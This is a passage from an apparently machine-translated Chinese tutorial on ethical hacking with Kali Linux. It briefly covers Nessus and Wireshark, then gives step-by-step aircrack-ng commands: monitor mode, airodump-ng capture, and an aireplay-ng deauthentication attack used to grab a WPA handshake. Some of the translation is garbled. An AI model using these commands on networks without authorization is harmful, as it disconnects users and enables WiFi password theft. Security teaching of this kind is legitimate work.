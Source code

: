 Nessus 是一个远程扫描工具，可以用来检查计算机的安全漏洞。它不会主动阻止您的计算机存在的任何漏洞，但它能够通过快速运行 **1200+** 漏洞检查来嗅出漏洞，并在需要修补任何安全补丁时发出警报。

### **5。WireShark** ![wireshark logo - ethical hacking using kali linux - eduerka](../Images/f2df3b1cdf4c1ce83117a4a80e16b19f.png)

WireShark 是一款开源的数据包分析器，您可以免费使用。有了它，您可以从微观层面查看网络上的活动，同时还可以访问 pcap 文件、定制报告、高级触发器、警报等。据报道，它是世界上使用最广泛的 Linux 网络协议分析器。

## **力量展示:空气破裂和嘎吱嘎吱**

**步骤 1** :检查您的无线接口名称，并将其置于监控模式。

```
ifconfig wlo1 down
iwconfig wlo1 mode monitor
ifconfig wlo1 up
```

[![](../Images/3346eb432b4f676a064ad1f0f0cef033.png)T2】](/blog/wp-content/uploads/2019/01/Step-2-Ethical-Hacking-using-Kali-Linux-Edureka-1.png)

**步骤 2** :终止任何可能干扰扫描进程的进程。总是先干掉网络管理员。您可能需要多次运行所示命令。

```
airmon-ng check kill
```

[![](../Images/a43261c87d116aea01ae3d940f0ed7b6.png)T2】](/blog/wp-content/uploads/2019/01/Step-3-Ethical-Hacking-using-Kali-Linux-Edureka-1.png)

**第三步**:成功杀死所有进程后，运行命令——**airodump-ng<interface-name>**。它应该会生成一个接入点列表，如下所示:

```
airodump-ng wlo1
```

[![](../Images/bbf65a84ae8aaa3671b8ea64b6fc61be.png)T2】](/blog/wp-content/uploads/2019/01/Step-4-Ethical-Hacking-using-Kali-Linux-Edureka-1.png)

**第 4 步**:选择接入点，并使用-w 标志运行它，将结果写入一个文件。我们的文件叫做捕获。

```
airodump-ng -w capture -c 11 --bssid [mac-addr]
```

[![](../Images/1bd5eb438bdc736b95ea2039ed384e3d.png)T2】](/blog/wp-content/uploads/2019/01/Step-5-Ethical-Hacking-using-Kali-Linux-Edureka-1.png)

**步骤 5** :运行上面的命令应该会在*的“站”下显示连接到该接入点的设备的 MAC 地址。*

[![](../Images/437552c5516235559b396de80e965a2b.png)T2】](/blog/wp-content/uploads/2019/01/Step-6-Ethical-Hacking-using-Kali-Linux-Edureka-1.png)

**第 6 步**–这是使用 Kali Linux 进行道德黑客活动的最重要的一步。这里，我们将向我们选择攻击的接入点广播一个取消认证信号。这将断开连接到接入点的设备。因为这些设备很可能存储了密码，所以它们会尝试自动重新连接。这将启动设备和接入点之间的 4 次握手，并将在从步骤 4 开始的扫描中被捕获(是的，该扫描仍在后台运行)。

```
aireplay-ng -0 0 -a [mac] wlo1
```
